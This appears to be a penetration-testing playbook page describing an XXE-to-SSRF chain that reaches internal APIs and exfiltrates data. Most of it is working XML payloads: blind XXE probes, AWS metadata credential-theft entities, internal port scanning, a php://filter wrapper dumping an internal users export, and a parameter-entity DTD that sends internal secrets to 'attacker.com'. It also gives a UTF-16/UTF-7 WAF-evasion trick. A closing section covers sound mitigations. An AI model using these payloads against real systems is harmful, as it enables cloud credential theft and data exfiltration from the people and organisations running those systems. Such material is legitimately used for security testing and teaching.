

# Vulnerability Chain: XXE -> SSRF -> Internal API Access -> Data Exfiltration

## Overview
This playbook details the advanced exploitation chain that begins with an XML External Entity (XXE) vulnerability, transitions into Server-Side Request Forgery (SSRF), leverages this to interact with an internal API, and ultimately results in the exfiltration of sensitive data. This chain represents a critical risk scenario where an attacker can pivot from parsing malicious XML to entirely bypassing network perimeter controls, accessing sensitive backend services that are completely unauthenticated or trust local network traffic implicitly.

When dealing with modern enterprise architecture, microservices, and internal API gateways, an XXE vulnerability rarely just stops at Local File Inclusion (LFI). Attackers use XXE as a beachhead to map out the internal network and interact with internal APIs such as metadata services (e.g., AWS IMDS, Azure Instance Metadata) or backend administration interfaces.

The depth of this vulnerability stems from legacy features in XML parsers (such as `libxml2`, `Xerces`, and `SAX`) that were designed to fetch external Document Type Definitions (DTDs) and entities to validate or construct an XML document. In the modern web context, allowing a server-side parser to make outbound HTTP or FTP requests is a catastrophic security failure.

## 1. The Anatomy of the Chain

The progression of this attack follows a very specific sequence of events, relying on the fact that the vulnerable server acts as a confused deputy. 

1. **Initial Vector**: The application accepts XML input (e.g., SVG uploads, SOAP requests, SAML assertions, or standard XML data structures) without properly disabling external entities or DTD processing. The attacker recognizes the XML parsing behavior.
2. **SSRF Pivot**: The attacker declares an external entity pointing to an internal IP address or hostname (`http://169.254.169.254`, `http://localhost:8080`, `http://internal-api.local`).
3. **Internal API Interaction**: By reading the response from the internal API, the attacker uncovers endpoints, methods, and structures. They effectively blind-fire or read responses to map the internal attack surface.
4. **Data Exfiltration**: The attacker crafts further payloads to extract sensitive tokens, PII, or credentials, and sends them back to their own controlled server using OOB (Out-Of-Band) techniques if direct response viewing is not available.

## 2. ASCII Diagram: Attack Architecture



## 3. Phase 1: XXE Discovery and Exploitation

The first step requires identifying where XML is parsed. In modern applications, XML might not be obvious. 

**Look for:**
- `Content-Type: application/xml` or `text/xml` in API requests.
- Applications accepting SVG images (SVGs are purely XML based and often processed by libraries like ImageMagick which rely on XML parsers).
- SOAP web services (WSDL files and SOAP envelopes).
- SAML endpoints where identity assertions are processed (SAML tokens are base64 encoded XML).
- File upload functions parsing DOCX, XLSX, PPTX (which are essentially ZIP archives containing dozens of XML files).

### 3.1 Standard Entity Test (In-Band)
Send a benign entity to see if it is resolved and reflected in the application's output.

```xml
<!-- Request -->
POST /api/v1/process-data HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY foo "VULNERABLE_PARSER_FOUND"> ]>
<data>
    <user>&foo;</user>
</data>
```
If the server returns `VULNERABLE_PARSER_FOUND` anywhere in the response, in-band XXE is present.

### 3.2 OOB (Out-Of-Band) Discovery
Often, the parsed XML is not reflected back to the user. This is known as Blind XXE. In this case, an OOB payload is required to verify the vulnerability.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data SYSTEM "http://attacker-controlled-server.com/ping.dtd">
<data>&send;</data>
```
If your collaborator server (e.g., Burp Collaborator, interactsh, or a custom VPS) receives an HTTP GET or DNS request, the parser is evaluating external entities.

## 4. Phase 2: Pivoting from XXE to SSRF

Once XXE is confirmed, the next step is using it to perform SSRF. The XML parser (e.g., `libxml2`, `Xerces`) acts as an HTTP client when handling external entities with the `http://` URI scheme.

### 4.1 Accessing Cloud Metadata
If the application is hosted on AWS, Azure, or GCP, the standard target is the Instance Metadata Service (IMDS). This service often resides at a non-routable IP address.

**AWS Target Example:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<data>
    <user>&ssrf;</user>
</data>
```
If successful, this returns the IAM role name associated with the instance. A follow-up request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME` will return the `AccessKeyId`, `SecretAccessKey`, and `Token`, allowing the attacker to completely compromise the AWS environment.

### 4.2 Port Scanning the Internal Network
You can use XXE to map internal ports.
```xml
<!ENTITY port80 SYSTEM "http://127.0.0.1:80/">
<!ENTITY port8080 SYSTEM "http://127.0.0.1:8080/">
<!ENTITY port6379 SYSTEM "http://127.0.0.1:6379/">
```
By observing response times (time-based inference) or error messages (e.g., `Connection refused` vs `Document is empty` vs `XML parsing error`), you can determine which ports are open on the localhost or adjacent internal network.

## 5. Phase 3: Discovering the Internal API

Once an internal web server is identified (e.g., `http://localhost:8080` or `http://10.0.0.5:80`), you must identify API endpoints. Common internal endpoints include:
- `/api/v1/health`
- `/actuator/env` (Spring Boot Actuator)
- `/admin/config`
- `/v1/users`
- `/server-status`
- `/metrics` (Prometheus endpoints)

### 5.1 Fuzzing Endpoints
You can automate this via Burp Intruder or a custom script by changing the entity URL:
```xml
<!ENTITY api SYSTEM "http://localhost:8080/§FUZZ§">
```

### 5.2 Retrieving Swagger/OpenAPI Definitions
A massive win during this phase is discovering an internal Swagger UI or OpenAPI JSON file.
```xml
<!ENTITY swagger SYSTEM "http://localhost:8080/v2/api-docs">
```
Retrieving the JSON schema gives you an exact map of all internal APIs, their required parameters, acceptable methods, and data structures.

## 6. Phase 4: Exploiting Internal APIs for Data Exfiltration

When an internal API is found, it often lacks authentication. Developers frequently assume that if a request originates from `localhost` or the internal VPC, it is trusted.

### 6.1 Bypassing JSON Parsing Limitations in XML
Sometimes, the internal API returns raw JSON, but the XML parser fails because JSON contains characters like `{` and `}` or `&` which break the XML validation.
To bypass this, we can use CDATA sections or PHP wrappers (if the backend is PHP) to base64 encode the response before the XML parser attempts to validate it.

#### PHP Expect / Filter Wrapper Example
```xml
<!DOCTYPE test [
  <!ENTITY ssrf SYSTEM "php://filter/read=convert.base64-encode/resource=http://internal-api.local/api/users/export">
]>
<data>&ssrf;</data>
```
The application will return the base64 encoded JSON dump of all users, bypassing XML syntax errors entirely.

### 6.2 OOB Exfiltration of Internal Data
If the vulnerability is Blind XXE (the output is not returned to the user in the HTTP response), you must exfiltrate the internal API response using an external DTD. This requires parameter entities.

**1. Attacker hosts `payload.dtd` on their server:**
```xml
<!ENTITY % file SYSTEM "http://localhost:8080/api/secrets">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfiltrate;
```

**2. Attacker sends the malicious XML request to the vulnerable app:**
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/payload.dtd">
<data>test</data>
```

**Execution Flow:**
1. The parser reads the request and fetches `payload.dtd` from the attacker.
2. The parser evaluates `%file`, making an SSRF GET request to the internal API (`/api/secrets`).
3. The parser evaluates `%eval`, constructing a new entity `%exfiltrate` that appends the contents of the internal API to the attacker's URL.
4. The parser evaluates `%exfiltrate`, making a final HTTP GET request to `attacker.com`, leaking the internal data via the URL query parameters.

*Note*: This exfiltration technique can fail if the internal API response contains spaces, quotes, or line breaks, as URLs cannot inherently contain these without encoding. Using FTP (`ftp://`) instead of HTTP for exfiltration, or employing character replacement mechanisms in the DTD might be required for multi-line JSON or complex files.

### 6.3 Advanced Encoding Bypasses
If the Web Application Firewall (WAF) blocks the `<!ENTITY` or `<!DOCTYPE` strings, attackers can change the XML encoding.
By converting the entire XML payload to `UTF-16` or `UTF-7`, the WAF (which generally inspects traffic as ASCII/UTF-8) will see gibberish and pass the payload through. The XML parser, however, reads the `<?xml version="1.0" encoding="UTF-16"?>` declaration, decodes the payload, and executes the XXE.

## 7. Defensive Measures and Mitigation

To break this chain, defenders must address the vulnerability at multiple layers (Defense in Depth).

### 7.1 Fix the XXE (Primary Fix)
The most effective solution is to completely disable Document Type Definitions (DTDs) and XML external entity processing in the XML parser. Do not rely on input sanitization.
- **Java (DocumentBuilderFactory)**: 
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
  dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  ```
- **C# (.NET)**: Set `XmlResolver = null` when using `XmlReaderSettings`.
- **Python (lxml)**: `etree.XMLParser(resolve_entities=False)`

### 7.2 Prevent the SSRF (Secondary Fix)
- Implement strict egress filtering on the application server. A web server should not be able to arbitrarily connect to internal APIs or the AWS Metadata service.
- Use network segmentation. Web nodes in the DMZ should only have access to specific, required backend ports.
- For AWS, enforce IMDSv2, which requires an HTTP PUT request with a specific header (`X-aws-ec2-metadata-token`) to retrieve a token before accessing metadata. XXE generally only allows HTTP GET requests without custom headers, effectively mitigating the SSRF-to-Cloud-Metadata vector.

### 7.3 Secure the Internal API (Tertiary Fix)
- Implement Zero Trust architecture. Internal APIs should never trust a request simply because it originates from a local or internal IP address.
- Enforce authentication (e.g., mTLS, internal JWTs, API keys) on all internal API endpoints, even those bound to `localhost`.

## 8. Chaining Opportunities
- **XXE -> LFI**: Instead of HTTP, use `file:///etc/passwd` or `file:///C:/Windows/win.ini` to read local OS files.
- **SSRF -> RCE**: Target internal services like Redis, Memcached, or Jenkins without authentication to achieve Remote Code Execution.
- **SSRF -> Protocol Smuggling**: Use `gopher://` or `dict://` URIs if supported by the underlying HTTP client (like cURL in PHP) to send multiline POST requests to internal APIs, bypassing REST API strictness.
- **XXE -> DoS (Billion Laughs Attack)**: Define deeply nested entities that exponentially expand in memory, crashing the parser and the server.

## 9. Related Notes
- [[05 - XML External Entity (XXE) Deep Dive]]
- [[06 - Server-Side Request Forgery (SSRF) Techniques]]
- [[22 - Cloud Metadata Abuse]]
- [[01 - API1 — Broken Object Level Authorization (BOLA)]]
- [[12 - Zero Trust Architecture Principles]]
- [[19 - Out-of-Band (OOB) Exploitation]]
